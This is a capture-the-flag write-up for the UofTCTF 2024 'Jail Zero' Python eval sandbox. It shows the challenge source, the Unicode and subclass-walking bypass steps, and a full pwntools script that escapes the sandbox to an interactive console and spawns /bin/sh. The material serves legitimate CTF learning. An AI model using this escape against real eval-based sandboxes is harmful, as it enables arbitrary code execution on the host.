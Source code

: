 ## UofTCTF 2024 Jail Zero

```python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

Requirements:

1. No alphabetic: Use [Unicode Block “Mathematical Alphanumeric Symbols”](https://www.compart.com/en/unicode/block/U+1D400) to bypass
2. No numbers: Use `(''=='')` as 1
3. No double underscores: Use [FULLWIDTH LOW LINE](https://unicode-explorer.com/c/FF3F)
4. No builtins: Use `().__class__.__base__.__subclasses__()`

Then, we can use existing way to get to `code.InteractiveConsole().interact()`:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `code` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__`
4. Execute `sys.modules["code"].InteractiveConsole().interact()`

Attack script:

```python
from pwn import *

context(log_level="debug")


# unicode bypass helper
def transform(text):
    encoded = ""
    # full width low line
    underscore = chr(0xFF3F)
    text = text.replace("__", "_" + underscore)
    for ch in text:
        if ch.isalpha():
            if ch >= "a" and ch <= "z":
                encoded += chr(ord(ch) + 0x1D41A - ord("a"))
            elif ch >= "A" and ch <= "Z":
                encoded += chr(ord(ch) + 0x1D400 - ord("A"))
            else:
                assert False
        else:
            encoded += ch
    print("before", text)
    print("after", encoded)
    return encoded


# step 1. locate Helper and Printer
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(transform("().__class__.__base__.__subclasses__()").encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100

true = "(''=='')"
ten = "+".join([true] * 10)


def get_index(index):
    parts = (
        [true] * (index % 10) + ["A"] * (index // 10 % 10) + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# H for index of helper
helper = get_index(helper_index)
print(helper)


# find help text of helper
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},S:=().__class__.__base__.__subclasses__()[H].__doc__]"
    ).encode()
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)


# synthesize "sys" and "code"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},P:={printer},S:=().__class__.__base__.__subclasses__()[H].__doc__,"
        # step 2. call help()
        + f"().__class__.__base__.__subclasses__()[H]()(),"
        # step 3. locate sys module
        + f"M:=().__class__.__base__.__subclasses__()[P].__init__.__globals__[{synthesize('sys')}],"
        # step 4. call sys.modules["code"].InteractiveConsole().interact()
        + f"M.modules[{synthesize('code')}].InteractiveConsole().interact()]"
    ).encode()
)
p.recvuntil(b"help> ")
# step 2. load code module in help() system
p.sendline(b"code")
p.sendline(b"quit")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```
